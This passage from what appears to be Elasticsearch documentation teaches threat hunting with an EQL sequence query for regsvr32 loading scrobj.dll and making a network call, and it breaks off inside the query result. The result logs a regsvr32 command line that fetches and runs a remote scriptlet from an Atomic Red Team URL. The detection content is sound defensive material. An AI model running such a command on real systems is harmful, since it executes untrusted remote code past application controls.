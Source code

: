 In many cases, attackers use malicious scripts to connect to remote servers or download other files. Use an [EQL sequence query](elasticsearch://reference/query-languages/eql/eql-syntax.md#eql-sequences) to check for the following series of events:

1. A `regsvr32.exe` process
2. A load of the `scrobj.dll` library by the same process
3. Any network event by the same process

Based on the command line value seen in the previous response, you can expect to find a match. However, this query isn’t designed for that specific command. Instead, it looks for a pattern of suspicious behavior that’s generic enough to detect similar threats.

```console
GET /my-data-stream/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe"]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}
```

The query matches a sequence, indicating the attack likely succeeded.

```console-result
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
```